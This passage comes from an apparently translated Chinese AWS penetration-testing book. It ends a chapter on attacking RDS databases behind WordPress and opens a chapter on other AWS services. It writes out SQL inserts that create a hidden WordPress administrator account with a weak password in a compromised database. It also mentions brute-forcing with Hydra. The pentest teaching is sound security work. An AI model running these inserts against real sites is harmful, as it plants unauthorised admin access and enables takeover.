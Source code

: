 ```
use newblog;
```

1.  现在按照以下方式列出表格：

```
show tables;
```

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-aws-pentest-kali/img/82545061-cf71-4124-a074-254276c7ed67.jpg)

我们可以看到`wp_users`表；现在是时候向其中添加一行新数据了。

1.  对于本教程，我们正在创建一个名为`newadmin`的用户，密码为`pass123`。发出以下命令：

```
INSERT INTO `wp_users` (`user_login`, `user_pass`, `user_nicename`, `user_email`, `user_status`)
VALUES ('newadmin', MD5('pass123'), 'firstname lastname', 'email@example.com', '0');

INSERT INTO `wp_usermeta` (`umeta_id`, `user_id`, `meta_key`, `meta_value`) 
VALUES (NULL, (Select max(id) FROM wp_users), 'wp_capabilities', 'a:1:{s:13:"administrator";s:1:"1";}');

INSERT INTO `wp_usermeta` (`umeta_id`, `user_id`, `meta_key`, `meta_value`) 
VALUES (NULL, (Select max(id) FROM wp_users), 'wp_user_level', '10');
```

1.  现在访问`http://<<EC2 IP 地址>>/wp-login.php`登录页面。输入新的凭据，您将以新的管理员身份登录。

# 总结

在本章中，我们学习了 RDS 实例是什么，以及如何创建 RDS 实例。然后我们在 EC2 机器上设置了一个 WordPress 网站，然后配置它使用 RDS 实例作为数据库服务器。我们看到了 RDS 实例如何变得容易受攻击。此外，我们使用 Nmap 和 Hydra 来识别和利用易受攻击的 RDS 实例。最后，我们学习了如何篡改 RDS 实例的数据以创建一个新的 WordPress 用户。

在下一章中，我们将学习如何对其他各种 AWS API 进行渗透测试。

# 进一步阅读

+   **使用 ncrack、hydra 和 medusa 进行暴力破解密码**：[`hackertarget.com/brute-forcing-passwords-with-ncrack-hydra-and-medusa/`](https://hackertarget.com/brute-forcing-passwords-with-ncrack-hydra-and-medusa/)

+   **在 Amazon RDS 中配置安全性**：[`docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.html`](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.html)

+   **加密 Amazon RDS 资源**：[`docs.aws.amazon.com/AmazonRDS/latest/UserGuide/Overview.Encryption.html`](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/Overview.Encryption.html)


# 第十四章：针对其他服务

AWS 提供了各种各样的服务，并且不断更新这些服务，同时发布新的服务。这本书不可能覆盖所有这些服务，但本章旨在介绍一些不太主流的服务以及它们如何被滥用以使我们作为攻击者受益。

需要注意的是，每个 AWS 服务都有可能存在某种利用方式，当将其视为攻击者时，这本书没有涵盖的服务并不意味着您不应该调查它。每项服务都可能出现各种安全问题，因此最好的做法是查看服务并确定它在现实世界中的使用方式，然后寻找常见的错误、不安全的默认设置或者只是为了使自己受益而遵循的不良实践。
